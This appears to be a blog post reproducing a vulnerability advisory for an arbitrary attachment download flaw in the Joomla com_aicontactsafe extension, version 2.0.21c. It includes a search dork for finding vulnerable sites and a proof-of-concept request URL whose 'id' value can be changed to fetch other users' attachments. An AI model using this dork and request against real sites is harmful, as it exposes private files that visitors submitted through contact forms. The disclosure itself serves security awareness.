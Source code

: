 ```yaml
---
layout: post
title: Joomla com_aicontactsafe Arbitrary Attachment Download - 08.06.2017
---
```


Everyone can download arbitrary attachment, but website must have including field with attachments.

<br># Vulnerability: Joomla com_aicontactsafe Arbitrary Attachment Download
<br># Date: 08.06.2017
<br># Software link: http://www.algisinfo.com/en/download/category/1-free-extensions.html
<br># Dork: inurl:index.php?option=com_aicontactsafe
<br># Version: v.2.0.21c.stable
<br># Exploit Author: Dave
<br># Website: http://www.morawskiweb.pl
<br># Contact: dawidmorawski1990@gmail.com
<br>#######################################
<br>
<br>1. Description:
<br>Everyone can download arbitrary attachment, but website must have including field with attachments.
<br>
<br>2. Proof of Concept:
<br>localhost/index.php?option=com_aicontactsafe&sTask=message&task=download&id=1&format=raw 
<br>
<br>All you have to do is change "id" value. 
<br>
